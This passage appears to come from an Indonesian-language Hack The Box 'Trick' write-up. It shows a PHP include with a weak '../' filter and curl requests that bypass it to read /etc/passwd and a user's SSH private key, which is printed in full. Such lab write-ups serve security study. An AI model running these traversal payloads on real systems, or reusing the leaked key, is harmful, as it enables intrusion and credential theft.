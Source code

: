 ```terminal

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```

#### Kami menemukan bahwa jika menemukan "../" itu menghapusnya, tetapi perlindungan ini dapat dengan mudah dilewati, ada contoh di [repositori](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

```terminal
❯ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

#### Kami melihat bahwa pengguna michael ada, kami dapat melihat apakah dia memiliki id_rsa

```terminal
❯ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
